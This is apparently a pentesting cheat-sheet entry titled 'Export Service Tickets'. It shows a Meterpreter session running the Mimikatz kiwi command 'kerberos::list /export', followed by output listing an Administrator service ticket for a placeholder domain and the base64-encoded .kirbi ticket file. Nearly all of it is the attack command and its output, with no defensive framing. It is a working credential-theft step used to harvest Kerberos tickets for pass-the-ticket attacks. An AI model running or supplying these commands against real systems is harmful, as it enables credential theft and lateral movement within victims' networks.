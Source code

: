 ### Export Service Tickets

```
meterpreter > kiwi_cmd kerberos::list /export

[00000001] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 12/16/2022 4:58:34 PM ; 12/17/2022 1:35:41 AM ; 12/23/2022 3:35:41 PM
   Server Name       : https/TSTWLPT1000000 @ EXAMPLE.COM
   Client Name       : Administrator @ EXAMPLE.COM
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
====================
Base64 of file : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
====================
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
MDAwMA==
====================

   * Saved to file     : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
```
